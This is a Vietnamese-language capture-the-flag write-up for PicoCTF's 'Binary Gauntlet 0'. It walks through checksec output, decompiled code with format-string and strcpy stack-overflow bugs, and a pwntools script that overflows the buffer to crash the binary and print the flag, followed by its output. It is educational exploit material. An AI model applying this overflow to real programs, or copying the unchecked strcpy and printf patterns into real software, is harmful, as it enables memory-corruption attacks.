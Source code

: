 # Binary Gauntlet 0

## Kiểm tra file
### file
```bash
gauntlet: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=a5c4ce8cddd5ece25b706af8d250134c3f70467c, not stripped
```
### checksec
```bash
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX disabled
PIE:      No PIE (0x400000)
RWX:      Has RWX segments
```
- Định dạng ELF 64-bit
- Not stripped -> Ta có thể dễ dàng tìm được các hàm trong chương trình
- No Stack Canary, no NX, no PIE, has RWX segments -> Easy BOF
## Decompile & Disassemble
### Decompile `main`
```c
undefined8 main(void)
{
  char local_88 [108];
  __gid_t local_1c;
  FILE *local_18;
  char *local_10;
  
  local_10 = (char *)malloc(1000);
  local_18 = fopen("flag.txt","r");
  if (local_18 == (FILE *)0x0) {
    puts(
        "Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are runningthis on the shell server."
        );
    exit(0);
  }
  fgets(flag,0x40,local_18);
  signal(0xb,sigsegv_handler);
  local_1c = getegid();
  setresgid(local_1c,local_1c,local_1c);
  fgets(local_10,1000,stdin);
  local_10[999] = '\0';
  printf(local_10);
  fflush(stdout);
  fgets(local_10,1000,stdin);
  local_10[999] = '\0';
  strcpy(local_88,local_10);
  return 0;
}
```
### Decompile `sigsegv_handler`
```C
void sigsegv_handler(void)
{
  fprintf(stderr,"%s\n",flag);
  fflush(stderr);               
  exit(1);
}
```
Hàm `sigsegv_handler` sẽ in ra flag. Khi hàm `signal` được gọi, nó sẽ thực thi `sigsegv_handler`. Vậy chỉ cần làm cho chương trình báo lỗi, ta sẽ có được flag.

Chương trình nhận vào 1 input rồi in input đó ra màn hình, sau đó nhận input thứ 2 rồi gọi hàm `strcpy`.
Có 2 lỗi ở hàm main:
1. `printf(local_10)` -> Lỗi chuỗi định dạng (Format String)
2. `strcpy(local_88, local_10)` -> `strcpy` không kiểm tra số lượng kí tự ở dest -> Tràn bộ đệm tại dest nếu không được cấp phát đủ vùng nhớ để chứa chuỗi src (Buffer Overflow)

Vậy bài này có 2 hướng khai thác, nhưng vì người viết chương trình đã tốt bụng tắt hết các cơ chế bảo vệ, chúng ta sẽ dùng cách gây tràn vùng nhớ biến local_88 vì nó được đặt trong stack, dễ dàng ghi đè return address và gây lỗi.
### Disassemble main
```asm
0x000000000040090d <+0>:	push   rbp
0x000000000040090e <+1>:	mov    rbp,rsp
0x0000000000400911 <+4>:	sub    rsp,0x90
0x0000000000400918 <+11>:	mov    DWORD PTR [rbp-0x84],edi
0x000000000040091e <+17>:	mov    QWORD PTR [rbp-0x90],rsi
0x0000000000400925 <+24>:	mov    edi,0x3e8
0x000000000040092a <+29>:	call   0x400790 <malloc@plt>
0x000000000040092f <+34>:	mov    QWORD PTR [rbp-0x8],rax
0x0000000000400933 <+38>:	lea    rsi,[rip+0x192]        # 0x400acc
0x000000000040093a <+45>:	lea    rdi,[rip+0x18d]        # 0x400ace
0x0000000000400941 <+52>:	call   0x4007c0 <fopen@plt>
0x0000000000400946 <+57>:	mov    QWORD PTR [rbp-0x10],rax
0x000000000040094a <+61>:	cmp    QWORD PTR [rbp-0x10],0x0
0x000000000040094f <+66>:	jne    0x400967 <main+90>
0x0000000000400951 <+68>:	lea    rdi,[rip+0x180]        # 0x400ad8
0x0000000000400958 <+75>:	call   0x400730 <puts@plt>
0x000000000040095d <+80>:	mov    edi,0x0
0x0000000000400962 <+85>:	call   0x4007d0 <exit@plt>
0x0000000000400967 <+90>:	mov    rax,QWORD PTR [rbp-0x10]
0x000000000040096b <+94>:	mov    rdx,rax
0x000000000040096e <+97>:	mov    esi,0x40
0x0000000000400973 <+102>:	lea    rdi,[rip+0x200766]        # 0x6010e0 <flag>
0x000000000040097a <+109>:	call   0x400760 <fgets@plt>
0x000000000040097f <+114>:	lea    rsi,[rip+0xffffffffffffff41]        # 0x4008c7 <sigsegv_handler>
0x0000000000400986 <+121>:	mov    edi,0xb
0x000000000040098b <+126>:	call   0x400770 <signal@plt>
0x0000000000400990 <+131>:	mov    eax,0x0
0x0000000000400995 <+136>:	call   0x4007b0 <getegid@plt>
0x000000000040099a <+141>:	mov    DWORD PTR [rbp-0x14],eax
0x000000000040099d <+144>:	mov    edx,DWORD PTR [rbp-0x14]
0x00000000004009a0 <+147>:	mov    ecx,DWORD PTR [rbp-0x14]
0x00000000004009a3 <+150>:	mov    eax,DWORD PTR [rbp-0x14]
0x00000000004009a6 <+153>:	mov    esi,ecx
0x00000000004009a8 <+155>:	mov    edi,eax
0x00000000004009aa <+157>:	mov    eax,0x0
0x00000000004009af <+162>:	call   0x400740 <setresgid@plt>
0x00000000004009b4 <+167>:	mov    rdx,QWORD PTR [rip+0x2006f5]        # 0x6010b0 <stdin@@GLIBC_2.2.5>
0x00000000004009bb <+174>:	mov    rax,QWORD PTR [rbp-0x8]
0x00000000004009bf <+178>:	mov    esi,0x3e8
0x00000000004009c4 <+183>:	mov    rdi,rax
0x00000000004009c7 <+186>:	call   0x400760 <fgets@plt>
0x00000000004009cc <+191>:	mov    rax,QWORD PTR [rbp-0x8]
0x00000000004009d0 <+195>:	add    rax,0x3e7
0x00000000004009d6 <+201>:	mov    BYTE PTR [rax],0x0
0x00000000004009d9 <+204>:	mov    rax,QWORD PTR [rbp-0x8]
0x00000000004009dd <+208>:	mov    rdi,rax
0x00000000004009e0 <+211>:	mov    eax,0x0
0x00000000004009e5 <+216>:	call   0x400750 <printf@plt>
0x00000000004009ea <+221>:	mov    rax,QWORD PTR [rip+0x2006af]        # 0x6010a0 <stdout@@GLIBC_2.2.5>
0x00000000004009f1 <+228>:	mov    rdi,rax
0x00000000004009f4 <+231>:	call   0x4007a0 <fflush@plt>
0x00000000004009f9 <+236>:	mov    rdx,QWORD PTR [rip+0x2006b0]        # 0x6010b0 <stdin@@GLIBC_2.2.5>
0x0000000000400a00 <+243>:	mov    rax,QWORD PTR [rbp-0x8]
0x0000000000400a04 <+247>:	mov    esi,0x3e8
0x0000000000400a09 <+252>:	mov    rdi,rax
0x0000000000400a0c <+255>:	call   0x400760 <fgets@plt>
0x0000000000400a11 <+260>:	mov    rax,QWORD PTR [rbp-0x8]
0x0000000000400a15 <+264>:	add    rax,0x3e7
0x0000000000400a1b <+270>:	mov    BYTE PTR [rax],0x0
0x0000000000400a1e <+273>:	mov    rdx,QWORD PTR [rbp-0x8]
0x0000000000400a22 <+277>:	lea    rax,[rbp-0x80]
0x0000000000400a26 <+281>:	mov    rsi,rdx
0x0000000000400a29 <+284>:	mov    rdi,rax
0x0000000000400a2c <+287>:	call   0x400720 <strcpy@plt>
0x0000000000400a31 <+292>:	mov    eax,0x0
0x0000000000400a36 <+297>:	leave  
0x0000000000400a37 <+298>:	ret    
```
Gọi hàm `strcpy`
```asm
0x0000000000400a1e <+273>:	mov    rdx,QWORD PTR [rbp-0x8]
0x0000000000400a22 <+277>:	lea    rax,[rbp-0x80]
0x0000000000400a26 <+281>:	mov    rsi,rdx
0x0000000000400a29 <+284>:	mov    rdi,rax
0x0000000000400a2c <+287>:	call   0x400720 <strcpy@plt>
```
Biến local_88 nằm ở [rbp - 0x80]. Chúng ta cần 0x90 bytes để ghi đè return address và gây `sigsegv`

## Exploit (Remote sẽ update sau vì mất port rồi :()
### flag.txt:
```txt
flag{pwn3d}
```
### exploit.py
```python
from pwn import *

context.binary = ELF("./gauntlet")

run = process("./gauntlet")
run.sendline("Pwned")
run.sendline('A' * 0x90)

run.interactive()
```
## Output
```bash
[*] '/home/revirven/Desktop/CTF/PicoCTF-2021/Binary-Gauntlet-0/gauntlet'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
[+] Starting local process './gauntlet': pid 12231
[*] Switching to interactive mode
[*] Process './gauntlet' stopped with exit code 1 (pid 12231)
Pwned
flag{pwn3d}

[*] Got EOF while reading in interactive
$  
```
